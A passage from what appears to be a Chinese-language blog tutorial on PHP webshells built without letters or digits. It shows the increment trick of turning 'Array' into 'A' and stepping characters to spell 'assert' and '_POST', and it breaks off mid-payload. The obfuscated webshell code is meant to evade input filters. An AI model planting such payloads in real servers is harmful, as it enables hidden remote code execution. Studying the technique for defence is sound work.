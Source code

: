 ![](/blog_img/noneword-5.png)
注意到这里"assert"和"_POST"都用的URL编码表示，如果直接以\x9e\x8c\x8c\x9a\x8d\x8b这种UTF-8字符表示，并不能识别出为UTF-8字符，而是会被识别为英文+数字的字符串。


## 方法三
这种方法主要就是利用自增自减。
```php
"A"++ ==> "B"
"B"++ ==> "C"
```
也就是说，如果我们能够得到"A"，那么我们就能通过自增自减，得到所有的字母。  
那么问题就转化为怎么得到一个字符"A"。在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为"Array"。再取这个字符串的第一个字母，就可以获得"A"。
```php
<?php
$a = ''.[];
var_dump($a);
```
![](/blog_img/noneword-3.png)
故有payload:
```php
<?php
$_=[].'';   //得到"Array"
$___ = $_[$__];   //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___;   //$__="A"
$_ = $___;   //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$___ .= $__;   //$___="AS"
$___ .= $__;   //$___="ASS"
$__ = $_;   //$__="A"
```